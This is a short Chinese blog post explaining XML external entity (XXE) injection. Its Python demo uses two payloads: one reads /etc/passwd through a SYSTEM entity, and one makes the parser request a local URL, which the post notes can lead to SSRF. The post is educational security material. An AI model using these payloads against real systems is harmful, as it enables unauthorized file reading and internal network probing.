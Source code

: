 ```yaml
---
id: 268
layout: post
title: 'xml实体注入xxe'
date: 2015-05-28 23:21:00
author: virusdefender
tags: 安全
---
```


xxe就是xml实体注入，先稍微就说一下XML entity:

> entity翻译为"实体"。它的作用类似word中的"宏"，也可以理解为DW中的模板，你可以预先定义一个entity，然后在一个文档中多次调用，或者在多个文档中调用同一个entity(XML定义了两种类型的entity。一种是我们这里说的普通entity，在XML文档中使用；另一种是参数entity，在DTD文件中使用。

借助XXE,攻击者可以实现任意文件读取,DOS拒绝服务攻击以及代理扫描内网等.


<!--more-->


这里是一个Python的demo
```python
# coding=utf-8
import xml.sax

x = """<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xdsec [
<!ELEMENT methodname ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<methodcall>
<methodname>&xxe;</methodname>
</methodcall>
"""

x1 = """<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xdsec [
<!ELEMENT methodname ANY >
<!ENTITY xxe SYSTEM "http://127.0.0.1:8005/xml.test" >]>
<methodcall>
<methodname>&xxe;</methodname>
</methodcall>
"""


class MyContentHandler(xml.sax.ContentHandler):
    def __init__(self):
        xml.sax.ContentHandler.__init__(self)

    def startElement(self, name, attrs):
        self.chars = ""

    def endElement(self, name):
        print name, self.chars

    def characters(self, content):
        self.chars += content


parser = MyContentHandler()
print xml.sax.parseString(x, parser)
print xml.sax.parseString(x1, parser)

```
xml.test的文件内容是字符串`Hello`

可以看到两个的回显分别是
![QQ20150528-2@2x.png][1]
![QQ20150528-3@2x.png][2]

其中下面的这个能看到实际请求了这个地址，还可能造成ssrf
![QQ20150528-1@2x.png][3]

其实还有一个demo，可以将读取的文件发送出来，可以用于没有回显的场景下，作者是使用的php，我用Python但是暂时没测试成功，稍后再发出来。

wooyun上现有的典型漏洞

[http://www.wooyun.org/bugs/wooyun-2010-059911][4]

[http://www.wooyun.org/bugs/wooyun-2010-073321][5]



  [1]: http://storage.virusdefender.net/blog/images/268/1.png
  [2]: http://storage.virusdefender.net/blog/images/268/2.png
  [3]: http://storage.virusdefender.net/blog/images/268/3.png
  [4]: http://www.wooyun.org/bugs/wooyun-2010-059911
  [5]: http://www.wooyun.org/bugs/wooyun-2010-073321
